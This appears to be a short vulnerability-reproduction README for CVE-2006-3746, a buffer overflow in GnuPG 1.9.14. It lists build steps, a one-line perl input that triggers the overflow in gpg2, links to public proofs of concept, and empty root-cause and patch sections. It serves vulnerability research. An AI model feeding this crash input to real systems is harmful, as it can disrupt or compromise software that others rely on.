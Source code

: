 # CVE-2006-3746

## Experiment Environment

Ubuntu 10.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-3746/gnupg-1.9.14.tar.bz2
tar -xvf gnupg-1.9.14.tar.bz2
cd gnupg-1.9.14
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
perl -e 'print "\xfd\xff\xff\xff\xff\xfe"'| ./g10/gpg2 --no-armor
```

## PoCs

[GnuPG 1.4/1.9 - Parse_Comment Remote Buffer Overflow](https://www.exploit-db.com/exploits/28257/)

[GnuPG Parse_Comment Remote Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/19110/exploit)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

## References
